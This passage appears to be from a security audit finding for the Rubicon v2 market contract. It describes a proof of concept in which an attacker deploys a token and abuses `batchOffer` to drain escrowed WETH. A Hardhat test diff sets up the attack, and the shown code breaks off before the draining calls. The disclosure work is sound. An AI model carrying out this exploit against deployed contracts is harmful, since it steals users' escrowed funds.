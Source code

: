 The POC demonstrates how an attacker can deploy their own token and then use `batchOffer` to make the `RubiconMarket` offer its entire balance of WETH for some of the attacker's token. The attacker then takes that offer at no cost (except some gas) and thereby steals the `10 WETH` the `RubiconMarket` held in escrow for previous unfilled offers.

### Files to change

Apply the following diff to `test/hardhat-tests/ProtocolDeployment.ts`:

```diff
diff --git a/test/hardhat-tests/ProtocolDeployment.ts b/test/hardhat-tests/ProtocolDeployment.ts
index b55d879..0b8e6ba 100644
--- a/test/hardhat-tests/ProtocolDeployment.ts
+++ b/test/hardhat-tests/ProtocolDeployment.ts
@@ -1,4 +1,4 @@
-import { time, loadFixture } from "@nomicfoundation/hardhat-network-helpers";
+import { time, loadFixture, setBalance } from "@nomicfoundation/hardhat-network-helpers";
 import { anyValue } from "@nomicfoundation/hardhat-chai-matchers/withArgs";
 import { expect } from "chai";
 import { ethers, network } from "hardhat";
@@ -213,6 +213,77 @@ describe("Rubicon v2 Protocol Tests", function () {
     };
   }
 
+  describe("ShalaamumMarketThis", function () {
+    let rubiconMarket, weth, attacker;
+    let attackerCoin;
+    const attackerBalanceStart = 10n**18n;
+    let marketWethStart;
+  
+    before(async function () {
+      let otherAccount;
+      ({ rubiconMarket, weth, otherAccount } = await loadFixture(
+        deployRubiconProtocolFixture
+      ));
+      attacker = otherAccount;
+    });
+  
+    it("Initialized Market", async function () {
+      expect(await rubiconMarket.initialized()).to.equal(true);
+    });
+
+    it("attacker has 1 ETH and 0 WETH", async function () {
+      setBalance(attacker.address, attackerBalanceStart);
+      expect(await ethers.provider.getBalance(attacker.address)).eq(attackerBalanceStart);
+      expect(await weth.balanceOf(attacker.address)).eq(0);
+    });
+
+    it("attacker deploys own attackerCoin", async function () {
+      const testCoinFactory = await ethers.getContractFactory("TokenWithFaucet", attacker);
+      attackerCoin = await testCoinFactory.deploy(
+        attacker.address,
+        "AttackerCoin",
+        "ATTACKCOIN",
+        18
+      );
+      await attackerCoin.connect(attacker).adminMint();
+      expect(await attackerCoin.balanceOf(attacker.address)).to.be.gte(1);
+    });
+
+    it("rubiconMarket holds 10 WETH", async function () {
+      marketWethStart = await weth.balanceOf(rubiconMarket.address);
+      expect(marketWethStart).eq(10n*10n**18n);
+    });
```